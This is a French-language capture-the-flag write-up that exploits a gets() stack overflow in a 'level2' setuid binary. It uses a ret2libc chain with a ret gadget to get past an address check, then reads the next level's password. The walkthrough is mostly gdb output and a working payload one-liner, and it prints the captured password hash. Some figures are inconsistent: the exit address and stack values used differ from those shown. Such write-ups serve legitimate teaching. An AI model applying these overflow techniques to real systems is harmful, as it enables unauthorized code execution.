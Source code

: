 Je commence par découvrir qui je suis, où je suis, et qu'est-ce qui est à ma disposition :

```bash
$ id && pwd && ls -la
uid=2021(level2) gid=2021(level2) groups=2021(level2),100(users)
/home/user/level2
total 17
dr-xr-x---+ 1 level2 level2   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level2 level2  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level2 level2 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2
-rw-r--r--+ 1 level2 level2   65 Sep 23  2015 .pass
-rw-r--r--  1 level2 level2  675 Apr  3  2012 .profile
```

Je tente de lancer le binaire level2 :

```bash
$ ./level2
(waiting for input)
$ ./level2
da
da
```

Je recoupe l'analyse ASM du binaire avec GDB des résultats obtenus sur [Dogbolt](https://dogbolt.org/?id=4128e95e-4279-47df-81a9-a69c5f209d01) et en extrait une version probable du code :

```c
void p()
{
    fflush(stdout);

    int buffer[16]; // <------------------------1 buffer declared with 64 (16 * 4 per int) bytes
    gets(buffer); // <--------------------------2 overflow possible due to no size check, no shell call in code so Ret2Libc exploit

    int check = buffer[20]; // <----------------3 code checks that first address post overflow doesnt start with 0xb bit
    if ((check & 0xb0000000) == 0xb0000000) // <4 here
    {
        printf("(%p)\n", check);
        exit(1);
    }

    puts(buffer);
    strdup(buffer);
}

int main()
{
    p();
    return 0; // <------------------------------5 return address changed to point to the ret instruction of p() because system() starts with 0xb
} // <------------------------------------------6 ret instruction p() will look for an address to return to, find system(), and we get shell access
```

J'identifie :

- une vulnérabilité possible avec `gets()`
- la mise en place d'un 'safeguard' avec une condition if

Tout comme le précédent niveau, il s'agirait la de ré-écrire l'adresse de retour avec un exploit type `Ret2Libc`. Ici, le code ne lance pas shell, donc à l'inverse du précédent niveau, je vais devoir utiliser la véritable `Ret2Libc`, qui consiste à aller chercher l'adresse de `system()`, (éventuellement d'`exit()` pour que le programme termine correctement) et celle de `/bin/sh` dans la `libc`.

L'exécution sera la même que pour `level1`, mais il faudra écrire ces 3 adresses dans le payload.

Pour trouver les trois adresses, ainsi que la taille de la stack, j'utilise `gdb` :

```h
$ gdb ./level2 -q
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.

(gdb) disas p
Dump of assembler code for function p:
    ...
   0x08048532 <+94>:    lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:    mov    %eax,(%esp)
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:   leave <---------------------- break ici
   0x0804853e <+106>:   ret
End of assembler dump.

(gdb) b *p+105
Breakpoint 1 at 0x804853d

(gdb) r
Starting program: /home/user/level2/level2
dab
dab

Breakpoint 1, 0x0804853d in p ()

(gdb) info registers
...
esp            0xbffff6a0       0xbffff6a0
ebp            0xbffff708       0xbffff708
...

(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>

(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>

(gdb) info proc mappings
process 9921
Mapped address spaces:

    Start Addr   End Addr       Size     Offset objfile
    0x8048000  0x8049000     0x1000        0x0 /home/user/level2/level2
    0x8049000  0x804a000     0x1000        0x0 /home/user/level2/level2
    0x804a000  0x806b000    0x21000        0x0 [heap]
    0xb7e2b000 0xb7e2c000     0x1000        0x0
    0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so <--- libc
    0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
    0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so <--- end
    0xb7fd2000 0xb7fd5000     0x3000        0x0
    0xb7fd9000 0xb7fdd000     0x4000        0x0
    0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
    0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
    0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
    0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
    0xbffdf000 0xc0000000    0x21000        0x0 [stack]

(gdb) find 0xb7e2c000, 0xb7fd2000, "/bin/sh"
0xb7f8cc58
1 pattern found.
```

Je peux commencer par calculer la taille de la stack comme au level précédent :

`0xbffff728 - 0xbffff6c0 = 0x68 = 104` bytes

Puis, soustraire par rapport à la position du buffer dans la stack (ici `0x4c(%ebp)`) soit

`0x68 - 0x4c = 0x1C = 28` bytes, soit : `104 - 28 = 76` bytes afin d'atteindre `ebp`.

J'ajoute 4 bytes pour écrire sur la `return address` de `main()`, soit 80 bytes.
Mon payload échouerait si je le construisais de la même manière qu'au `level1` car la première adresse après l'overflow est utilisé par ce bout de code :

```c
    int check = buffer[20];
    if ((check & 0xb0000000) == 0xb0000000)
    {
        printf("(%p)\n", check);
        exit(1);
    }
```

Afin de s'assurer qu'elle ne commence pas par le bit `0xb` (au travers d'une opération `AND`), or, mon payload ressemblerait à :

```h
"\x90" * 80 + "\xb7\xe6\xb0\x60" + "\xb7\xe6\xb0\x60" + "\xb7\xf8\xcc\x58"
^^^^^^^^^^^   ^^^^^^^^^^^^^^^^^^   ^^^^^^^^^^^^^^^^^^   ^^^^^^^^^^^^^^^^^^
buffer        adresse de system()  adresse d'exit()     adresse de "/bin/sh"
```

Ce qui serait problématique puisque la première adresse, qui est la nouvelle adresse de retour, commence par le bit `0xb`.

Je dois donc ajouter une étape supplémentaire dans le payload afin que le payload ne se fasse pas "attraper" par cette condition.

Une possibilité serait par exemple d'utiliser l'adresse d'un appel `ret`, par exemple celui de `p()`, puisqu'il cherchera ensuite la `return address`, qui sera la valeur suivante sur la stack, qui sera donc la suite du payload (et donc mon appel vers `system()`).

Notez que l'adresse de `/bin/sh` est mise en dernière dans le payload car c'est la manière dont les arguments de fonctions sont placées dans la stack (tout en haut de celle-ci).

Je cherche donc l'adresse de l'instruction de retour de `p()` :

```h
(gdb) disas p
Dump of assembler code for function p:
    ...
   0x08048535 <+97>:    mov    %eax,(%esp)
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:   leave
   0x0804853e <+106>:   ret <------------------------ ici
```

Et je l'ajoute donc à mon payload, que je construit tel quel :

```python
"\x90" * 80
+ "\x08\x04\x85\x3e" <- return address of p, [::-1] is an inverted splice
+ "\xb7\xe6\xb0\x60" <- return address of system
+ "\x08\x04\x83\xd0" <- return address of exit
+ "\xb7\xf8\xcc\x58" <- return address of "bin/sh"
```

Et tente de l'utiliser sur le binaire :

```bash
$ (python -c 'print("\x90" * 80 + "\x08\x04\x85\x3e"[::-1] + "\xb7\xe6\xb0\x60"[::-1] + "\x08\x04\x83\xd0"[::-1] + "\xb7\xf8\xcc\x58"[::-1])' && echo 'cat /home/user/level3/.pass') | ./level2
����������������������������������������������������������������>������������>`��X���
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

Je construis mon payload en utilisant python, y ajoute une lecture du `.pass` du level3, et enfin le passe à l'executable `level2` :

```python
(python -c 'print("\x90" * 80 + "\x08\x04\x85\x3e"[::-1] + "\xb7\xe6\xb0\x60"[::-1] + "\x08\x04\x83\xd0"[::-1] + "\xb7\xf8\xcc\x58"[::-1])' && echo 'cat /home/user/level3/.pass') | ./level2

492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

